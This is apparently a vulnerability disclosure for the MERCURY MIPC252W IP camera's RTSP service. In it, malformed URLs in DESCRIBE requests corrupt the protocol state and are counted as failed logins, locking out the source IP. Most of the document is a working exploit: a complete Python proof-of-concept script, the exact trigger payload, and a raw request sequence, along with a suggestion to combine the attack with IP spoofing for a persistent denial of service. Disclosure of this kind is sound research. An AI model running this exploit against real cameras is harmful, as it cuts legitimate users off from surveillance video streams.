



# Information

**Vendor of the products:** MERCURY

**Vendor's website:** https://www.mercurycom.com.cn/

**Reported by:** YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html

# Overview

An input validation vulnerability (CWE-20) exists in the RTSP service of the MERCURY MIPC252W IP camera. When processing `DESCRIBE` requests, the device fails to sufficiently validate the URL field in the request line. Requests containing malformed URLs (e.g., illegal characters or random byte sequences that do not conform to RTSP URI specifications) are not rejected at the URL parsing stage; instead, they are passed through into the subsequent authentication processing logic.

This fundamental input validation flaw leads to two distinct abnormal consequences:

**Consequence 1: Protocol State Machine Corruption**

When a malformed URL request reaches the authentication logic, the device returns a `401 Unauthorized` response, but the `CSeq` field in the response does not match the value in the request (e.g., request sends `CSeq: 4`, response returns `CSeq: 3`). This violates RFC 2326, which requires the response `CSeq` to mirror the request. The mismatch indicates that the device's internal request processing state has become corrupted. Although the TCP connection remains open, all subsequent requests on the same connection return `400 Bad Request`, rendering the RTSP state machine unable to continue normal operation. A new connection must be established to recover.

**Consequence 2: Abnormal Authentication Failure Counting Leading to IP Lockout**

Because the malformed URL request bypasses URL-level validation and enters the authentication logic, the device erroneously counts it as an authentication failure. An attacker does not need to supply any valid or crafted Digest authentication parameters. By repeating approximately 3 rounds of `DESCRIBE` request sequences containing malformed URLs, the attacker accumulates enough authentication failure counts to trigger an IP-level lockout on the source address. Once locked out, all RTSP authentication requests from that IP are rejected regardless of credential correctness. The lockout persists for approximately 40 minutes to several hours before automatically recovering, or can be cleared by rebooting the device. RTSP access from other IP addresses is not affected during this period.

It is worth noting that a malformed URL should have been intercepted at the URL parsing stage and should have no involvement with authentication logic whatsoever. The fact that such a request is counted as an authentication failure itself demonstrates the input validation flaw — the device misclassifies a malformed-URL request as an authentication failure, exposing a boundary defect in its internal processing logic. An attacker could further combine this with IP spoofing to impersonate a legitimate client's source address, re-triggering the lockout immediately after recovery and sustaining a persistent denial-of-service condition, posing a serious threat to device availability in security monitoring deployments.

# POC

```python
#!/usr/bin/env python3
"""
PoC for RTSP DESCRIBE Malformed URL Input Validation Flaw
Affected Device: MERCURY MIPC252W (Firmware: 1.0.5 Build 230306 Rel.79931n)

This PoC demonstrates that the RTSP service fails to validate the URL field
in DESCRIBE request lines. A malformed URL bypasses URL-level parsing and
enters authentication logic, causing CSeq-mismatched 401 responses and
corrupting the RTSP state machine. Repeating this sequence approximately
3–5 times triggers an IP-level authentication lockout on the target device.

Usage:
    Fill in CAMERA_IP (and YOUR_PASSWORD to compute HA1), then run:
        python3 rtsp_malformed_url_poc.py

This code is for authorized security research purposes only.
"""

import socket
import hashlib
import time
import sys

# ─────────────────────────────────────────────
#  Configuration — fill in before running
# ─────────────────────────────────────────────
CAMERA_IP  = "192.168.0.149"
RTSP_PORT  = 554
RTSP_URI   = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1"

USERNAME   = "admin"
REALM      = "MERCURY IP-Camera"
PASSWORD   = "YOUR_PASSWORD"       # used only to compute HA1

# Malformed URL payload — empirically verified trigger sample
MALFORMED_URL = "`{.V`#{/\"cJ\"CsuFE&V_ZiSYg.jzKM"

# Number of attack rounds (3–5 rounds trigger IP lockout)
ROUNDS = 5
# ─────────────────────────────────────────────

# Pre-compute HA1 = MD5(username:realm:password)
HA1 = hashlib.md5(f"{USERNAME}:{REALM}:{PASSWORD}".encode()).hexdigest()


def calculate_response(nonce, method, uri):
    """Compute RTSP Digest authentication response."""
    ha2 = hashlib.md5(f"{method}:{uri}".encode()).hexdigest()
    return hashlib.md5(f"{HA1}:{nonce}:{ha2}".encode()).hexdigest()


def recv_rtsp_response(sock, timeout=5):
    """Read until a complete RTSP response is received."""
    sock.settimeout(timeout)
    data = b""
    try:
        while True:
            chunk = sock.recv(4096)
            if not chunk:
                break
            data += chunk
            if b"RTSP/1.0" in data and b"\r\n\r\n" in data:
                break
    except socket.timeout:
        pass
    return data


def run_round(round_id):
    print(f"\n{'='*60}")
    print(f"  Round {round_id} / {ROUNDS}")
    print(f"{'='*60}")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((CAMERA_IP, RTSP_PORT))

    # ── Step 1: OPTIONS ──────────────────────────────────────────
    s.send((
        f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 2\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s)
    print("[OPTIONS]\n", res.decode(errors="ignore"))

    # ── Step 2: DESCRIBE (unauthenticated) — obtain nonce ────────
    s.send((
        f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 3\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Accept: application/sdp\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[DESCRIBE_1]\n", res)

    nonce = None
    for line in res.split("\r\n"):
        if "nonce=" in line:
            nonce = line.split('nonce="')[1].split('"')[0]
            break
    if not nonce:
        print("[!] Failed to extract nonce. Skipping round.")
        s.close()
        return

    # ── Step 3: DESCRIBE with malformed URL ──────────────────────
    # KEY STEP: the request line URL is replaced with a malformed value.
    # The device fails to reject this at URL parsing and passes it into
    # authentication logic, returning a CSeq-mismatched 401 and corrupting
    # the RTSP state machine. This request is also erroneously counted as
    # an authentication failure, accumulating toward IP lockout.
    describe_uri     = RTSP_URI
    describe_response = calculate_response(nonce, "DESCRIBE", describe_uri)

    malformed_describe = (
        f"DESCRIBE {MALFORMED_URL} RTSP/1.0\r\n"
        f"CSeq: 4\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{nonce}\", uri=\"{describe_uri}\", "
        f"response=\"{describe_response}\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Accept: application/sdp\r\n\r\n"
    )
    s.send(malformed_describe.encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[DESCRIBE_2 — malformed URL]\n", res)

    # Observe CSeq mismatch in the 401 response (expected: 4, device may return 3)
    for line in res.split("\r\n"):
        if line.startswith("CSeq:"):
            cseq_val = line.split(":")[1].strip()
            if cseq_val != "4":
                print(f"[!] CSeq mismatch detected — request: 4, response: {cseq_val} "
                      f"(state machine corruption confirmed)")
            break

    # ── Step 4: SETUP track1 ─────────────────────────────────────
    setup_uri      = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1/"
    setup1_response = calculate_response(nonce, "SETUP", setup_uri)

    s.send((
        f"SETUP {RTSP_URI}/track1 RTSP/1.0\r\n"
        f"CSeq: 5\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{nonce}\", uri=\"{setup_uri}\", "
        f"response=\"{setup1_response}\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[SETUP track1]\n", res)

    session_id = None
    for line in res.split("\r\n"):
        if line.startswith("Session:"):
            session_id = line.split(":")[1].split(";")[0].strip()
            break
    if not session_id:
        print("[!] No session ID returned (expected after state machine corruption).")
        s.close()
        return

    # ── Step 5: SETUP track2 ─────────────────────────────────────
    setup2_response = calculate_response(nonce, "SETUP", setup_uri)

    s.send((
        f"SETUP {RTSP_URI}/track2 RTSP/1.0\r\n"
        f"CSeq: 6\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{nonce}\", uri=\"{setup_uri}\", "
        f"response=\"{setup2_response}\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
        f"Session: {session_id}\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[SETUP track2]\n", res)

    # ── Step 6: PLAY ─────────────────────────────────────────────
    play_response = calculate_response(nonce, "PLAY", setup_uri)

    s.send((
        f"PLAY {setup_uri} RTSP/1.0\r\n"
        f"CSeq: 7\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{nonce}\", uri=\"{setup_uri}\", "
        f"response=\"{play_response}\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Session: {session_id}\r\n"
        f"Range: npt=0.000-\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[PLAY]\n", res)

    # ── Step 7: TEARDOWN ─────────────────────────────────────────
    teardown_response = calculate_response(nonce, "TEARDOWN", setup_uri)

    s.send((
        f"TEARDOWN {setup_uri} RTSP/1.0\r\n"
        f"CSeq: 8\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{nonce}\", uri=\"{setup_uri}\", "
        f"response=\"{teardown_response}\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Session: {session_id}\r\n\r\n"
    ).encode())
    time.sleep(0.2)
    s.close()


def main():
    if PASSWORD == "YOUR_PASSWORD":
        print("[!] Fill in PASSWORD before running.")
        sys.exit(1)

    print("=" * 60)
    print("  MERCURY MIPC252W — RTSP Malformed URL Input Validation PoC")
    print("=" * 60)
    print(f"  Target       : {CAMERA_IP}:{RTSP_PORT}")
    print(f"  Malformed URL: {MALFORMED_URL}")
    print(f"  Rounds       : {ROUNDS}")
    print("=" * 60)

    for i in range(1, ROUNDS + 1):
        run_round(i)
        time.sleep(1)

    print("\n" + "=" * 60)
    print("[+] PoC complete.")
    print("    After ~3 rounds, the source IP should be locked out.")
    print("    Verify by attempting a normal authenticated RTSP session —")
    print("    authentication should fail even with correct credentials.")
    print("=" * 60)


if __name__ == "__main__":
    main()
```


# Attack Demo

The vulnerability can be triggered by sending a `DESCRIBE` request with a malformed URL in the request line. The device fails to reject this input at the URL parsing stage and instead passes it into the authentication logic, causing a `CSeq`-mismatched `401` response and corrupting the RTSP state machine. Repeating this sequence approximately 3 times accumulates enough authentication failure counts to trigger an IP-level lockout, after which legitimate clients from the same IP address are unable to authenticate even with correct credentials.

Below is a complete example of the RTSP request sequence used during verification (the sequence must be repeated approximately 3 times to trigger IP lockout):

```
OPTIONS rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

DESCRIBE `{.V`#{/"cJ"CsuFE&V_ZiSYg.jzKM RTSP/1.0
CSeq: 4
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{NONCE}", uri="rtsp://{IP}:554/stream1", response="{RESPONSE}"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://{IP}:554/stream1/track1 RTSP/1.0
CSeq: 5
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{NONCE}", uri="rtsp://{IP}:554/stream1/", response="{RESPONSE}"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://{IP}:554/stream1/track2 RTSP/1.0
CSeq: 6
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{NONCE}", uri="rtsp://{IP}:554/stream1/", response="{RESPONSE}"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: {SESSION_ID}

PLAY rtsp://{IP}:554/stream1/ RTSP/1.0
CSeq: 7
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{NONCE}", uri="rtsp://{IP}:554/stream1/", response="{RESPONSE}"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: {SESSION_ID}
Range: npt=0.000-

TEARDOWN rtsp://{IP}:554/stream1/ RTSP/1.0
CSeq: 8
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{NONCE}", uri="rtsp://{IP}:554/stream1/", response="{RESPONSE}"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: {SESSION_ID}
```

**Notes:**

- `{IP}`: Replace with the target device IP address.
- The malformed URL in the third request (`DESCRIBE`) is the empirically verified trigger sample: ``{.V`#{/"cJ"CsuFE&V_ZiSYg.jzKM`. Other malformed URLs containing illegal characters can also trigger the same behavior.
- `{NONCE}`: Replace with the nonce value returned in the `401` response to the second `DESCRIBE` request.
- `{RESPONSE}`: Replace with the computed Digest response value corresponding to the nonce.
- `{SESSION_ID}`: Replace with the session ID returned in the `SETUP` response.
- Single trigger: the device returns a `CSeq`-mismatched `401`, and all subsequent requests on the same connection return `400`.
- After approximately 3 repeated rounds: IP-level authentication lockout is triggered; correct credentials are also rejected until the device recovers or is rebooted.

As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level analysis of the URL parsing and authentication state logic is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided to show how the malformed RTSP request sequence triggers state machine corruption and subsequent IP lockout.









A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/MERCURY_MIPC252W_6th


# Supplement

This vulnerability allows an unauthenticated network-adjacent attacker to trigger two distinct denial-of-service conditions in the RTSP service of the affected device by sending `DESCRIBE` requests with malformed URLs in the request line.

The first condition causes immediate RTSP state machine corruption on the affected connection: the device returns a `CSeq`-mismatched `401` response and subsequently rejects all further requests on the same connection with `400 Bad Request`, requiring reconnection to recover.

The second and more severe condition is an IP-level authentication lockout: the device erroneously counts malformed-URL requests as authentication failures, and after approximately 3 repeated sequences, locks out the source IP address from all RTSP authentication for an extended period (approximately 40 minutes to several hours), regardless of credential correctness. Combined with IP spoofing, an attacker can impersonate a legitimate client's address and sustain a persistent denial-of-service condition, continuously preventing that client from accessing the camera's video stream.

Successful exploitation disrupts video streaming availability and can render the camera inaccessible to legitimate users in real-world surveillance deployments, negatively impacting the reliability and availability of the device.
